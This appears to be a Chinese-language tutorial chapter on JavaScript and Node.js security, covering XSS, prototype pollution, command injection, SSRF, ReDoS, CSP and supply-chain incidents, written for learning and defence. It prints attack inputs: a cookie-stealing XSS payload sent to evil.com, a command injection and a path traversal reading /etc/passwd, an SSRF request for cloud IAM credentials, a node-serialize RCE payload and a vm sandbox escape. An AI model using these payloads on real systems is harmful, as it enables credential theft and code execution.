


## 1. JavaScript在安全领域的地位

JavaScript是当今Web生态的基石语言，也是安全研究者必须精通的第一门语言。全球前100万网站中超过97%使用JavaScript，这意味着几乎所有Web安全攻击面都与JS直接或间接相关。理解JS在安全领域的地位，不仅是为了写攻击脚本，更是为了深入理解浏览器安全模型、Web应用的攻击面，以及现代软件供应链的脆弱性。

### 1.1 语言选择决策：为什么安全研究需要多语言

安全研究涵盖Web安全、二进制安全、工具开发、恶意软件分析等多个方向，每个方向对编程语言有不同的要求。下图展示了安全任务与语言选择的映射关系：

> **安全领域编程语言选择决策图**



在所有这些语言中，JavaScript占据一个独特的位置——它是唯一一门同时运行在浏览器端和服务器端的语言，也是唯一一门可以直接操控浏览器安全上下文的语言。Python可以写扫描器，C可以写漏洞利用，但只有JavaScript能在浏览器沙箱内执行任意逻辑。

### 1.2 为什么JS是Web安全的必备语言

#### 1.2.1 浏览器原生语言的垄断地位

JavaScript是所有主流浏览器（Chrome、Firefox、Safari、Edge）唯一原生支持的脚本语言。WebAssembly（WASM）虽然提供了编译目标，但其与DOM的交互仍必须通过JavaScript胶水代码完成。这意味着：

- **XSS攻击的载体是JS**：注入到页面中的恶意代码几乎都是JavaScript，因为浏览器只能执行JS
- **浏览器安全模型以JS为粒度**：同源策略、CSP、Cookie策略等安全机制都围绕JS的执行上下文设计
- **前端漏洞利用必须用JS**：要读取DOM、发起跨域请求、窃取Cookie，都必须在JS层面操作

#### 1.2.2 Node.js将攻击面扩展到服务器

Node.js的出现让JavaScript突破了浏览器沙箱，成为服务器端语言。这带来了全新的攻击面：

| 层面 | 浏览器JS攻击面 | Node.js攻击面 |
|------|----------------|---------------|
| 输入来源 | URL参数、表单、Cookie | HTTP请求体、文件上传、环境变量 |
| 危险函数 | `eval()`、`innerHTML`、`document.write()` | `child_process.exec()`、`require()`、`vm.runInContext()` |
| 特有漏洞 | XSS、CSRF、点击劫持 | 原型链污染、命令注入、SSRF、路径穿越 |
| 影响范围 | 单个用户浏览器 | 整个服务器、数据库、内网 |
| 沙箱保护 | 浏览器沙箱隔离 | 无默认沙箱，直接访问系统资源 |

Node.js的`child_process`模块允许执行系统命令，`require()`可以加载任意模块，`vm`模块（不安全的沙箱）可以执行动态代码——这些都是命令注入和代码注入的温床。

#### 1.2.3 npm生态：全球最大的软件供应链攻击面

npm是世界上最大的包管理器，截至2025年拥有超过300万个包。庞大的生态带来了严重的供应链安全问题：

- **依赖深度惊人**：一个普通的Express应用直接依赖约50个包，间接依赖可达数百个
- **typosquatting攻击**：攻击者发布名称与流行包极其相似的恶意包（如`crossenv`伪装`cross-env`）
- **恶意包注入**：2021年`ua-parser-js`被劫持，每周下载量超700万次，注入了加密货币挖矿和密码窃取代码
- **维护者账号劫持**：2022年`coa`和`rc`包被劫持，影响了数百万CI/CD流水线



### 1.3 JavaScript核心安全概念

要理解JavaScript的安全风险，必须先掌握JS语言的核心机制。以下概念是后续所有安全分析的基础。

#### 1.3.1 原型链（Prototype Chain）

原型链是JavaScript对象继承的基础机制，也是原型链污染攻击的根源。

```javascript
// 原型链的基本原理
const parent = { greet: 'hello' };
const child = Object.create(parent);

console.log(child.greet);        // 'hello' — 从原型继承
console.log(child.__proto__ === parent);  // true
console.log(child.hasOwnProperty('greet')); // false — 不是自身属性

// 原型链的查找过程：
// child → parent → Object.prototype → null
// 每一级都没有就沿链向上查找，直到null
```

**安全意义**：如果攻击者能修改`Object.prototype`，就能影响程序中所有对象的行为。这就是原型链污染（Prototype Pollution）的原理，详见后续章节。

#### 1.3.2 闭包（Closure）与作用域

闭包让函数能"记住"其创建时的词法作用域。在安全审计中，闭包常与变量泄露、权限提升相关。

```javascript
// 闭包导致的变量泄露风险
function createAuthModule() {
    const secretKey = 'sk-1234567890abcdef';
    const tokens = new Map();

    return {
        // 安全：只暴露必要接口
        validate(token) {
            return tokens.has(token);
        },
        // 危险：如果意外暴露了内部状态
        getTokens() {
            return tokens; // 返回了Map引用，外部可以修改
        }
    };
}

// 如果攻击者能调用getTokens()，就能篡改认证状态
```

#### 1.3.3 事件循环与异步模型

JavaScript的单线程事件循环模型对安全有直接影响：

```javascript
// 事件循环的基本模型
// ┌───────────────────────────┐
// │         调用栈 (Call Stack)  │ ← 同步代码在这里执行
// └───────────────────────────┘
//              ↓ 调用
// ┌───────────────────────────┐
// │    Web APIs / Node APIs    │ ← setTimeout, fetch, fs.readFile
// └───────────────────────────┘
//              ↓ 完成后回调
// ┌───────────────────────────┐
// │     任务队列 (Task Queue)    │ ← 回调函数排队等待
// └───────────────────────────┘
//              ↓ 调用栈为空时
// ┌───────────────────────────┐
// │         调用栈 (Call Stack)  │ ← 回调函数被取出执行
// └───────────────────────────┘

// 安全影响：竞态条件
async function transferMoney(from, to, amount) {
    const balance = await getBalance(from);     // 步骤1: 查询余额
    if (balance >= amount) {
        // 在await返回之前，另一个请求可能已经修改了余额
        await deductBalance(from, amount);       // 步骤2: 扣款
        await addBalance(to, amount);            // 步骤3: 加款
    }
}
// 经典的TOCTOU（Time-of-Check-Time-of-Use）漏洞
// 攻击者同时发送多个转账请求，可能绕过余额检查
```

#### 1.3.4 类型强制转换（Type Coercion）

JavaScript的隐式类型转换是许多安全绕过的根源：

```javascript
// 类型强制转换导致的安全问题

// 1. 认证绕过
const password = "0e12345";  // PHP风格的"科学计数法"
if (password == 0) {
    // "0e12345" == 0 为 true！因为被解析为 0×10^12345 = 0
    grantAccess(); // 认证被绕过
}

// 2. 数组比较陷阱
[] == ![]          // true！
// 解释: ![] → false → 0, [] → "" → 0, 0 == 0 → true

// 3. 属性名注入
const config = {};
const userInput = '__proto__';
config[userInput] = { isAdmin: true };
// config本身没有问题，但如果后面做了深拷贝/合并...

// 4. parseInt的陷阱
parseInt('0x1a');    // 26（十六进制）
parseInt('010');     // 10（ES5+不再八进制）
parseInt('12abc');   // 12（忽略尾部非数字字符）
// 如果用于端口号解析，可能导致意外行为
```

### 1.4 JavaScript安全风险全景

#### 1.4.1 XSS（跨站脚本攻击）

XSS是Web安全中最常见的漏洞类型，OWASP Top 10长期位列前三。所有XSS的根本原因都是将不可信数据当作代码执行。

**反射型XSS**：恶意脚本通过URL参数注入，服务器原样反射回页面。

```javascript
// 服务端代码（Express）
app.get('/search', (req, res) => {
    // 危险：直接将用户输入嵌入HTML
    res.send(`<h1>搜索结果: ${req.query.q}</h1>`);
});

// 攻击URL:
// /search?q=<script>document.location='https://evil.com/steal?c='+document.cookie</script>
```

**存储型XSS**：恶意脚本存储在数据库中，每个访问者都会执行。

```javascript
// 评论系统
app.post('/comment', (req, res) => {
    db.save({ content: req.body.content }); // 未过滤直接存储
});

// 攻击者提交评论：
// 
// 所有查看该评论的用户都会被窃取Cookie
```

**DOM型XSS**：前端JS直接操作DOM导致的XSS，不经过服务器。

```javascript
// 前端代码
const hash = window.location.hash.substring(1);
document.getElementById('content').innerHTML = decodeURIComponent(hash);

// 攻击URL:
// https://example.com/#
// 服务器完全不参与，纯粹是前端漏洞
```

#### 1.4.2 原型链污染（Prototype Pollution）

原型链污染是JavaScript/Node.js特有的漏洞类型，攻击者通过修改`Object.prototype`影响整个应用的行为。

```javascript
// 漏洞代码：不安全的深合并函数
function merge(target, source) {
    for (let key in source) {
        if (typeof source[key] === 'object' && source[key] !== null) {
            if (!target[key]) target[key] = {};
            merge(target[key], source[key]);
        } else {
            target[key] = source[key];
        }
    }
    return target;
}

// 攻击载荷
const malicious = JSON.parse('{"__proto__": {"isAdmin": true, "role": "admin"}}');
merge({}, malicious);

// 此时所有对象都受到影响
const newUser = {};
console.log(newUser.isAdmin); // true
console.log(newUser.role);    // 'admin'

// 实际危害：绕过权限检查
if (user.isAdmin) {
    showAdminPanel(); // 所有用户都会看到管理面板
}
```

**真实案例**：2019年HackerOne报告了一个在Express中间件`lodash.defaultsDeep`中的原型链污染漏洞（CVE-2019-10744），CVSS评分9.1，影响数百万应用。

#### 1.4.3 服务端JavaScript特有风险

Node.js环境带来了浏览器JS不存在的攻击面：

```javascript
// 1. 命令注入
const { exec } = require('child_process');
app.get('/ping', (req, res) => {
    // 危险：直接拼接用户输入到命令
    exec(`ping -c 1 ${req.query.host}`, (err, stdout) => {
        res.send(`<pre>${stdout}</pre>`);
    });
});
// 攻击: /ping?host=127.0.0.1;cat /etc/passwd

// 2. 路径穿越
app.get('/file', (req, res) => {
    // 危险：未验证路径
    res.sendFile(`/uploads/${req.query.name}`);
});
// 攻击: /file?name=../../../etc/passwd

// 3. SSRF（服务端请求伪造）
const axios = require('axios');
app.get('/fetch', async (req, res) => {
    // 危险：请求用户指定的URL
    const data = await axios.get(req.query.url);
    res.send(data.data);
});
// 攻击: /fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
// 窃取AWS IAM凭证

// 4. 不安全的反序列化
const serialize = require('node-serialize');
app.post('/load', (req, res) => {
    const obj = serialize.unserialize(req.body.data);
    // 如果data包含IIFE，会立即执行
});
// 攻击载荷: {"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('id')}()"}
```

#### 1.4.4 正则表达式拒绝服务（ReDoS）

正则表达式的回溯机制可以被恶意输入利用，导致CPU耗尽：

```javascript
// 灾难性回溯的正则表达式
const vulnerable = /^(a+)+$/;
const evil = 'a'.repeat(25) + '!';
vulnerable.test(evil); // CPU 100%，可能需要数分钟才能返回

// 常见的ReDoS模式：
// 1. 嵌套量词:    (a+)+、(a*)*、(a|)*
// 2. 重叠交替:    (a|a)+、(a|ab)+
// 3. 重复的后引用: (\d+)\1+

// 防御：使用安全的正则引擎
// npm install re2 — Google的线性时间正则引擎
const RE2 = require('re2');
const safe = new RE2('^[a-z]+$'); // 不支持回溯，性能有保证
```

### 1.5 浏览器安全模型

理解浏览器的安全模型是Web安全研究的基础。浏览器通过多层机制隔离不同来源的内容，JavaScript是这些机制的主要执行对象。

#### 1.5.1 同源策略（Same-Origin Policy, SOP）

同源策略是浏览器安全的基石。两个URL的**协议、域名、端口**三者完全相同才视为同源。

```text
源（Origin）= 协议 + 域名 + 端口

https://example.com:443/path
│        │            │
协议     域名         端口

同源示例：
  https://example.com/page1  →  https://example.com/page2  ✓ 同源

跨域示例：
  https://example.com  →  http://example.com   ✗ 协议不同
  https://example.com  →  https://evil.com     ✗ 域名不同
  https://example.com  →  https://example.com:8080  ✗ 端口不同
```

SOP对不同类型的资源有不同的限制：

| 资源类型 | 跨域读取 | 跨域写入 | 跨域嵌入 |
|----------|----------|----------|----------|
| XMLHttpRequest/Fetch | ✗ 禁止 | 受限(CORS) | N/A |
| DOM | ✗ 禁止 | ✗ 禁止 | N/A |
| Cookie | ✗ 禁止 | ✗ 禁止 | N/A |
| `<script src>` | N/A | N/A | ✓ 允许(JSONP利用点) |
| `` | N/A | N/A | ✓ 允许 |
| `<iframe>` | ✗ 禁止 | ✗ 禁止 | ✓ 允许(受X-Frame-Options限制) |

#### 1.5.2 Content Security Policy（CSP）

CSP是防御XSS的核心机制，通过白名单限制页面可以加载和执行的资源。

```http
Content-Security-Policy: 
    default-src 'self';
    script-src 'self' 'nonce-abc123' https://cdn.example.com;
    style-src 'self' 'unsafe-inline';
    img-src * data:;
    connect-src 'self' https://api.example.com;
    frame-ancestors 'none';
    base-uri 'self';
    form-action 'self';
```

**CSP安全分析要点**：

```javascript
// CSP绕过常见场景
// 1. 'unsafe-inline'：允许内联脚本，CSP形同虚设
//    script-src 'unsafe-inline' → 完全不防XSS

// 2. 'unsafe-eval'：允许eval()、new Function()等
//    script-src 'unsafe-eval' → 攻击者可以eval恶意代码

// 3. JSONP端点绕过
//    script-src 'self' https://trusted.com
//    如果trusted.com有JSONP端点：
//    <script src="https://trusted.com/jsonp?callback=alert(1)//"></script>

// 4. base-uri缺失
//    如果CSP没有限制base-uri，攻击者可以注入<base>标签
//    改变所有相对URL的解析基准

// 5. DOM Clobbering + CSP绕过
//    利用HTML元素ID覆盖JS变量，绕过CSP的逻辑检查
```

#### 1.5.3 其他浏览器安全机制

```javascript
// 1. Cookie安全属性
Set-Cookie: session=abc123; 
    HttpOnly;      // JS无法读取(document.cookie返回空)
    Secure;        // 仅HTTPS传输
    SameSite=Lax;  // 限制跨站发送(防CSRF)
    Path=/;        // 路径限制
    Domain=example.com;

// 2. Subresource Integrity（SRI）
// 防止CDN上的脚本被篡改
<script src="https://cdn.example.com/lib.js" 
    integrity="sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/uxy9rx7HNQlGYl1kPzQho1wx4JwY8wC"
    crossorigin="anonymous"></script>

// 3. Trusted Types
// 强制所有DOM操作使用安全API，消除DOM XSS
// 需要在CSP中启用: require-trusted-types-for 'script'
const policy = trustedTypes.createPolicy('default', {
    createHTML: (str) => DOMPurify.sanitize(str)
});
element.innerHTML = policy.createHTML(userInput); // 安全
```

### 1.6 安全工具生态

JavaScript/TypeScript在安全工具开发中也有重要地位：

**浏览器扩展开发**：Burp Suite的许多替代品是浏览器扩展，如Cookie Editor、ModHeader、FoxyProxy。Chrome DevTools Protocol（CDP）允许通过JS完全控制浏览器。

**Puppeteer/Playwright自动化**：自动化漏洞扫描、截图、表单填充的首选工具：

```javascript
const puppeteer = require('puppeteer');

async function scanForXSS(targetUrl, payloads) {
    const browser = await puppeteer.launch({ headless: 'new' });
    const page = await browser.newPage();
    
    for (const payload of payloads) {
        const url = `${targetUrl}?q=${encodeURIComponent(payload)}`;
        await page.goto(url);
        
        // 检查是否触发了alert对话框
        page.on('dialog', async dialog => {
            console.log(`[!] XSS confirmed: ${payload}`);
            console.log(`    URL: ${url}`);
            await dialog.dismiss();
        });
    }
    
    await browser.close();
}
```

**安全扫描工具**：许多开源安全工具用Node.js编写或提供Node.js SDK，如OWASP ZAP的API客户端、Nuclei的模板引擎。

### 1.7 真实世界案例

| 年份 | 事件 | 漏洞类型 | 影响 |
|------|------|----------|------|
| 2017 | Equifax数据泄露 | Apache Struts（非JS，但说明Web漏洞的严重性） | 1.47亿用户数据泄露，赔偿7亿美元 |
| 2018 | event-stream事件 | npm供应链攻击 | 恶意代码窃取Copay钱包的加密货币 |
| 2019 | lodash原型链污染 | Prototype Pollution (CVE-2019-10744) | 影响数百万使用lodash.defaultsDeep的应用 |
| 2020 | SolarWinds | 供应链攻击（概念可类比npm） | 攻破美国政府多个机构 |
| 2021 | ua-parser-js劫持 | npm供应链攻击 | 每周700万下载量的包被注入挖矿代码 |
| 2022 | coa/rc包劫持 | npm供应链攻击 | 影响全球CI/CD流水线 |
| 2023 | Polyfill.io劫持 | CDN供应链攻击 | 通过JS CDN向数十万网站注入恶意代码 |
| 2024 | tj-actions/changed-files | GitHub Actions供应链攻击 | 泄露CI/CD环境中的密钥和凭证 |

这些案例说明：JavaScript生态的供应链安全问题不是理论风险，而是持续发生的真实威胁。

### 1.8 常见误区与纠正

**误区一："前端安全不重要，反正有后端校验"**
纠正：XSS纯粹是前端漏洞，后端无法防御DOM型XSS。Cookie窃取、会话劫持、钓鱼攻击都在前端完成。后端校验不能替代前端安全措施。

**误区二："用框架就安全了（React/Vue/Angular）"**
纠正：框架默认转义降低了XSS风险，但`dangerouslySetInnerHTML`（React）、`v-html`（Vue）、`bypassSecurityTrustHtml`（Angular）仍然可以引入XSS。框架也不能防御原型链污染、CSRF、SSRF等漏洞。

**误区三："HTTPS就够了"**
纠正：HTTPS只保护传输层，不防御应用层漏洞。XSS、原型链污染、命令注入等漏洞在HTTPS下依然存在。

**误区四："eval()才是唯一的代码注入风险"**
纠正：`new Function()`、`setTimeout(string)`、`setInterval(string)`、`innerHTML`、`document.write()`、模板字符串中的`<script>`标签、事件处理器属性（`onclick`等）都可以执行代码。

**误区五："Node.js的vm模块可以做安全沙箱"**
纠正：Node.js官方文档明确声明`vm`模块**不是**安全沙箱。`vm.runInNewContext()`可以被多种方式逃逸：

```javascript
const vm = require('vm');
const sandbox = {};

// vm逃逸示例
vm.runInNewContext(`
    this.constructor.constructor('return process')().exit()
`, sandbox);
// 通过constructor链获取Function构造器，执行任意代码
```

### 1.9 进阶：V8引擎与JavaScript安全

对于深入研究浏览器安全的读者，理解V8引擎（Chrome和Node.js的JS引擎）的内部机制至关重要。

**JIT编译与安全**：V8将热点JavaScript代码编译为机器码（Just-In-Time Compilation）。JIT编译器的优化假设如果被攻击者违反，可以导致类型混淆（Type Confusion），这是Chrome V8漏洞中最常见的类型。

```javascript
// V8 JIT类型混淆的概念示例
// 真实的V8漏洞利用比这复杂得多，但原理类似

function foo(arr) {
    // V8优化假设：arr总是Array
    return arr[0];
}

// 正常调用多次，触发JIT优化
for (let i = 0; i < 10000; i++) foo([1, 2, 3]);

// 如果能找到办法让V8的假设被违反...
// 就可能实现越界读写（Out-of-Bounds Read/Write）
```

**TurboFan优化器**：V8的优化编译器会基于类型反馈进行投机优化。如果攻击者能在优化后改变对象的类型（从Array变为TypedArray，或从Smi变为HeapObject），就可能绕过边界检查，实现任意内存读写。

**Ignition解释器**：V8的字节码解释器处理未优化的代码。字节码层面的漏洞（如`CreateArrayLiteral`中的边界检查缺失）也是安全研究的方向。

### 1.10 本章学习路线图

```mermaid
graph TD
    A[JavaScript安全基础] --> B[核心语言机制]
    B --> B1[原型链与原型链污染]
    B --> B2[闭包与作用域]
    B --> B3[事件循环与异步]
    B --> B4[类型系统与强制转换]

    A --> C[浏览器安全模型]
    C --> C1[同源策略SOP]
    C --> C2[内容安全策略CSP]
    C --> C3[Cookie安全]
    C --> C4[Trusted Types]

    A --> D[攻击技术]
    D --> D1[XSS三形态]
    D --> D2[CSRF与Clickjacking]
    D --> D3[Prototype Pollution]
    D --> D4[供应链攻击]

    A --> E[Node.js安全]
    E --> E1[命令注入]
    E --> E2[路径穿越]
    E --> E3[SSRF]
    E --> E4[反序列化攻击]

    A --> F[防御与工具]
    F --> F1[输入验证与输出编码]
    F --> F2[安全编码实践]
    F --> F3[自动化扫描工具]
    F --> F4[代码审计方法]

    style A fill:#e3f2fd,stroke:#1565c0
    style D fill:#ffcdd2,stroke:#e53935
    style F fill:#c8e6c9,stroke:#43a047
```



本章后续将沿着这条路线图，逐一深入每个主题。每一节都会从原理讲起，配合真实代码示例和攻击案例，最终给出防御方案和工具推荐。
